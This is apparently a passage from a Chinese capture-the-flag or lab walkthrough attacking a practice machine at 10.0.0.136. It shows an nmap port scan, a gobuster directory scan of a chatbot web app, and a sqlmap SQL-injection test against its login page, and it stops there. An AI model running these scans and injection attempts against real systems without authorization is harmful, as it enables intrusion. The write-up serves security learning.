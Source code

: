 扫描到主机地址为10.0.0.136

### 扫描端口

扫描靶机开放的服务端口

```
sudo nmap -sC -sV -p- 10.0.0.136 -oN nmap.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

（因为开放端口太多不好截图，这里重做了一个扫描）

可以看到，靶机上开放了ssh、http、https和email服务，先来访问80端口

Web渗透
-----

```
http://10.0.0.136
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

打开首页跳转到https服务，页面中发现两个功能模块，一个聊天机器人和个邮箱服务，我们一个一个检查，先看聊天机器人

```
https://10.0.0.136/chatbot/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

打开后在右下角发现程序的名称和版本，对chatbot做个目录扫描

```
gobuster dir -u https://10.0.0.136/chatbot/ -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -k
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到多个目录，先看看后台

```
https://10.0.0.136/chatbot/admin/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

尝试登录抓个包试下暴破密码和sql注入，先做个sql注入测试

```
sqlmap -u 'https://10.0.0.136:443/chatbot/classes/Login.php?f=login' --data='username=admin&password=123' --cookie='PHPSESSID=0feamafmpd0e4iahfb0v6k7nvj;roundcube_sessid=fajmig9q2rsass1t3n8871f70q' --batch
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
